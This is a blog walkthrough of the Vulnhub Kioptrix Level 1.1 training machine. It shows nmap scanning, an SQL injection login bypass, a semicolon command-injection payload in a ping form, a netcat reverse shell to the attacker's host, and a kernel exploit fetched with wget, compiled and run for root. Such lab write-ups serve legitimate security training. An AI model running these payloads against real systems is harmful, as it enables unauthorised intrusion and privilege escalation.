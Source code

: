 ```yaml
---
title: 'Vulnhub: Kioptrix Level 1.1(#2) - Walkthrough'
date: '2019-06-06T21:18:20+05:30'
draft: false
categories:
  - walkthrough
autoThumbnailImage: false
---
```



Kioptrix 2, the successor of one of the most popular vulnerable machines available online used for OSCP training, can be found here[ https://www.vulnhub.com/entry/kioptrix-level-11-2,23/
](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

Upon opening in the VMware, the machine looks like this 

![null](/images/uploads/b-1-.png)

Then I’ll discover the IP address of the target machine using the command

`arp-scan –l`

![null](/images/uploads/b-2-.png)

Then I did port scanning of the target machine to check for open ports and services running on them

`nmap –A –Pn 192.168.192.133`

The complete result was as follows with the ports and services running highlighted:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2019-06-06 04:39 EDT
Nmap scan report for 192.168.192.133
Host is up (0.0010s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            839/udp  status
|_  100024  1            842/tcp  status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2019-06-06T05:30:31+00:00; -3h09m48s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_RC4_64_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:12:E2:C6 (VMware)
Device type: general purpose|media device
Running: Linux 2.6.X, Star Track embedded
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:2.6.23 cpe:/h:star_track:srt2014hd
OS details: Linux 2.6.9 - 2.6.30, Star Track SRT2014HD satellite receiver (Linux 2.6.23)
Network Distance: 1 hop
Host script results:
|_clock-skew: mean: -3h09m48s, deviation: 0s, median: -3h09m48s
TRACEROUTE
HOP RTT     ADDRESS
1   1.03 ms 192.168.192.133
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.17 seconds
```

Now after this I tried using SSH for login, but couldn’t succeed. _**IPP on port 631 with CUPS 1.1**_ was my next target to try on, so I spent a good amount of time trying its exploits, but nothing really seemed to work. Then I also tried _**remote login on MySQL**_ but it didn’t work either. Now I came to the _**port 80, for HTTP**_. The following is the webapp hosted on the target machine.

![null](/images/uploads/b-3-.png)

This opened up a login, so first things first, I tried SQL Injection 

![null](/images/uploads/b-4-.png)

And it actually worked, this opened the following page

![null](/images/uploads/b-5-.png)

Now I tried pinging my own IP address, which worked and the next thing which striked in my mind was trying command execution using the same prompt box we entered the IP address in, I start with a simple _**pwd**_ command

`<IP address to ping>;<linux command to execute along>`

![null](/images/uploads/b-6-.png)

Now I start a netcat listener on my machine, using the command

`nc –nlvp <any available port>`

![null](/images/uploads/b-7-.png)

Now to get terminal access of the target machine on mine, I use the following command taking advantage of the command execution vulnerability I previously found.

`<any IP to ping>;/usr/local/bin/nc <Kali’s IP> <Port number on which listener is on> -e '/bin/bash'`

![null](/images/uploads/b-8-.png)

After executing this command, we’ll see a connection is established on our listener

Now we got the terminal access, but to get a command line interface, I used the command

`python –c “import pty;pty.spawn(‘/bin/bash/)”`

![null](/images/uploads/b-9-.png)

Now that I have a directory access, I tried playing in the directories for a while and used normal commands to learn more about the machines and files stored on it, some of these commands are below.

![null](/images/uploads/b-10-.png)

Now that I had user access and I surfed around the directories a little, I found writable file permissions for the folder _**/tmp **_which could be used for using a privilege escalation exploit compiling it and running it, which is exactly what I did.

Now I used two commands to make me aware of the Linux Kernel version and the OS release.

`cat /etc/*-release`	(OS Release)

`uname –r`			(Linux Kernel Version)

![null](/images/uploads/b-11-.png)

Using this exploit, I used the _**searchsploit **_tool in Kali to find a Privilege Escalation exploit.

![null](/images/uploads/b-12-.png)

Now that I found exactly one exploit, I could try using it on the machine. To download it onto the target machine, I will make use of the remote netcat terminal I created but first I’ll need to create a server from Kali hosting that exploit file I just found. For this I used the following commands

`searchsploit –m <exploit file name with extension>`		(copies the file to the working dir)

![null](/images/uploads/b-13-.png)

`python –m SimpleHTTPServer`			(starts a server in the same directory)

![null](/images/uploads/b-14-.png)

Now that this is done, I headed to the /tmp folder where writing and creating files is allowed for a normal user too, and download the exploit from the server I just created using the commands

`cd /tmp`

`wget <Kali’s IP address>:<port number of server>/<filename to be downloaded>`

![null](/images/uploads/b-15-.png)

After the exploit is downloaded, I now need to compile it and execute it.

`gcc –o <executable output exploit name> <exploit file name>`	(to compile)

`./<executable file name>`

![null](/images/uploads/b-16-.png)

And upon the sight of “#” I knew that I’ve successfully escalated the privilege to root access.

To confirm it, I further used the commands “`whoami`” and “`id`”

![null](/images/uploads/b-17-.png)

Congratulations, we have successfully completed the walk-through, I hope you enjoyed it, regarding any doubts, I can be contacted via the contact information available on the blog.

Best Regards,

Adhyan Dhull

